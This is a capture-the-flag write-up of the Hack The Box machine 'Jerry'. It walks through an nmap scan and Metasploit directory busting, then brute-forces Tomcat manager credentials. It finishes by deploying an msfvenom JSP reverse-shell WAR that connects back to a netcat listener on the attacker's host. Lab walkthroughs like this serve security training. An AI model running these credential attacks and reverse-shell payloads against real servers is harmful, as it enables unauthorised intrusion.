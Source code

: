 ```yaml
---
title: HTB - Jerry
date: 2023-12-01
categories: [CTF, HTB]
tags: [nmap, http, apache-tomcat, dir-busting, credential-enumeration, default-credentials, metasploit, msfvenom, webshell]
img_path: /assets/jerry/
published: true
---
```


![room_banner](machine_banner.png)

## Overview

|:-:|:-:|
|Machine|[Jerry](https://app.hackthebox.com/machines/144)|
|Rank|Easy|
|Time|1h48min|
|Focus|Default credentials, webshells|

## 1. Information Gathering

```shell
# sending ICMP requests to target
ping jerry
PING jerry (10.10.10.95) 56(84) bytes of data.
64 bytes from jerry (10.10.10.95): icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=2 ttl=127 time=24.1 ms
64 bytes from jerry (10.10.10.95): icmp_seq=3 ttl=127 time=25.6 ms
64 bytes from jerry (10.10.10.95): icmp_seq=4 ttl=127 time=23.9 ms
```

Host is alive and based on `ttl=127` it is a Windows machine.

```shell
# port scanning with nmap
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 jerry

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
```

## 2. Initial Foothold

```shell
# dir-busting with msf
msfconsole -q
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code
[*] Using code '404' as not found for 10.10.10.95
[+] Found http://10.10.10.95:8080/[SecCheck]/ 400 (10.10.10.95)
[+] Found http://10.10.10.95:8080/docs/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/examples/ 200 (10.10.10.95)
[+] Found http://10.10.10.95:8080/manager/ 302 (10.10.10.95)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Hacktricks: [Default Credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#username-enum)

```shell
# enumerating login credentials with msf
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
...
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
```

Credentials can be also found this way:

<figure>
    <img src="default_creds.jpg"
    alt="Default credentials" >
</figure>

We are now logged in and can see a lot of extra information:

<figure>
    <img src="logged_in_default_creds.png"
    alt="Successfully logged in with default credentials" >
</figure>

<figure>
    <img src="server_details.png"
    alt="Tomcat version information" >
</figure>

> Hacktricks: [MSFVenom Reverse Shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)
> _The `java/shell_reverse_tcp` payload did not work, but `jsp_shell_reverse_tcp` did._

```shell
# crafting the payload with msfvenom
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f war -o revshell.war
Payload size: 1096 bytes
Final size of war file: 1096 bytes
```

```shell
# receiving the reverse shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

> Both `user.txt` and `root.txt` are available without lateral pivoting or privesc.

<figure>
    <img src="jerry_pwned.png"
    alt="Machine pwned" >
</figure>